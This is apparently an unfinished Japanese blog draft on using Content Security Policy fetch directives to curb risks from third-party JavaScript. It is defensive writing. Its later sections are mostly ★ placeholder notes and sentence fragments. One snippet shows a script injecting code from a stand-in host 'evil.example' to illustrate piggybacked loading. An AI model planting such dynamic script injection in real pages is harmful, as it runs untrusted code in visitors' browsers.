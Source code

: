 # CSP（Content Security Policy）Fetch ディレクティブ活用の現実解

こんにちは、プラットフォームエンジニア & 安全確保支援士の中山です。

Web サイトにはしばしば 3rd-party JavaScript … 例えば Google Analytics のような Web 解析ツール、いいねボタンのような SNS 連携機能、広告掲載のための広告タグなど … を導入することがあります。一方で 3rd-party JavaScript には Web サイトを閲覧するユーザーに悪影響を与えてしまうリスクも存在するため、その導入とあわせた対策が必要となります。

そこで、今回の記事では Content Security Policy（以下 CSP）の Fetch ディレクティブを活用したリスク対策の取り組みについてお伝えしたいと思います。

## CSP の Fetch ディレクティブとは

詳しくは [W3C 仕様](https://www.w3.org/TR/CSP3/) を確認頂くとして、概念を絵にしたものがこちらです。

（★ここも絵を、Fetch もかく）

Web ブラウザに対してサブリソースの読み込みやインライン JavaScript の実行の制限を指示することで

- XSS リスクの軽減
- 外部ドメインへの意図しないデータ転送の抑制
- ある事業者の 3rd-party JavaScript から読み込まれる別な事業者の 3rd-party JavaScript の実行抑制

などの効果が期待できます。

例えば script-src の場合

> The script-src directive restricts the locations from which scripts may be executed. This includes not only URLs loaded directly into script elements, but also things like inline script blocks and XSLT stylesheets [XSLT] which can trigger script execution. 

Web サイトが

```
Content-Security-Policy: script-src 'self'
```

のような応答ヘッダを送信すると同一オリジンから読み込まれた JavaScript の実行のみ許可されます。

ちなみに CSP の Fetch ディレクティブは meta 要素にも定義可能ですが

> NOTE: The Content-Security-Policy-Report-Only header is not supported inside a meta element.

との注釈があり一部の機能が利用できず、さらにその [背景に関する議論](https://github.com/w3c/webappsec-csp/issues/277) の中で

> I really wish we'd stop with meta-element based policies.

のような意見も出ているので参考にしてください。

## 3rd-party JavaScript の課題と対策

Web ブラウザの開発者ツールを使うことで Web サイトに導入されている 3rd-party JavaScript を確認することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/pict01.png' />

このとき、もし 3rd-party JavaScript を提供する事業者に悪意があったり、悪意はなくとも別な攻撃者によって CDN やリポジトリ上の JavaScript コードが改変されていた場合、Web サイトに掲載された情報 … 閲覧しているユーザーのログインアカウントに紐づく個人情報が含まれるかもしれません … が盗まれたり、ユーザーが [フィッシングサイトに誘導](https://blog.techscore.com/entry/2022/08/24/150000) されてしまう、などのリスクが発生します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec01.png' />

こうしたリスクへの対策として Web ブラウザの Same Origin Policy（以下 SOP）という仕様を利用する方法があります。具体的には iframe 要素によってドメインを分離した環境 3rd-party JavaScript を実行することで、万が一悪意のある処理が実行されたとしてもその影響範囲を iframe 内に限定することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec02.png' />

ただし、Web 解析ツールや広告のビューアビリティー計測など 3rd-party JavaScript がその目的を達成するために Web サイトの DOM にアクセスする必要がある場合、SOP を利用した対策は採用できません。とはいえ、信頼できる安全な 3rd-party JavaScript ならば問題はないでしょう。

★★

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec03.png' />

ところが、ある事業者の 3rd-party JavaScript から別な事業者の 3rd-party JavaScript が読み込まれるケースも存在します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec04.png' />

例えば Web サイトが以下のマークアップを含み

```
<script src='https://hoge.example/hoge.js'></script>
```

さらに hoge.js が以下のようなコードを含む場合に evil.js が読み込まれます。

```
let script = document.createElement('SCRIPT');
script.src = 'https://evil.example/evil.js';
let targetNode = document.getElementsByTagName('SCRIPT').item(0);
targetNode.parentNode.appendChild(script);
```

こうした 3rd-party JavaScript 読み込みが複数回実行されることもあり、そうなるともはや安全性の確認は困難です。行儀の悪い事業者の 3rd-party JavaScript がコンテンツ情報を勝手に収集している … なんてこともあるかもしれません。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec05.png' />

このような場合に CSP の Fetch ディレクティブを使うことで、ホワイトリストで許可していないサブリソースの読み込みを制限することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec06.png' />

## CSP による対策と次の課題

Same Origin Policy と

一方でメディアサービスなどの Web サイトの場合は多くの 3rd-party JavaScript を導入しています。導入を把握している 3rd-party JavaScript の範囲ならば管理することは可能かもしれませんが、


例えば総務省の

その全ての安全性を確認することは現実的ではないかもしれません。


★例の知らない間に 90 個のタグとか（どこかの引用）

★それを CSP の Fetch ディレクティブで対策
★絵で示す
★ところが 3rd-party ツールの場合のホワイトリスト管理の難しさ

## 現実解の模索

★ティアを分けた対応（ブロック + サンプリングレポートと発見的統制 + 受容）
★イシューととりうる HOW のマトリクス


ゼロリスク = 違反時の停止
	インライン
		とめたいなら nonce
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		読み込むサブリソースを全てホワイトリスト登録。ただし 3p スクリプトが動作不全
		チェックしないなら strict-dynamic でいい
発見的統制 = 違反時のレポート
	インライン
		レポートしたいなら nonce★XSS のケースのレポートを見てみる
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		自ドメイン以外をレポートで発見的統制

★これ AI にも聞いてみる

## メディアでのティア 2 実験と今後の運用

★TBD
★定期的にレポートを出しサービスの技術管掌担当にチェックしてもらう

## その他考察

★Proxy とサンプリング
★TM での CSP 配信検討と
★nonce 面倒
★まとめとして（AI 先生に言われたような内容で）セキュリティー強化を



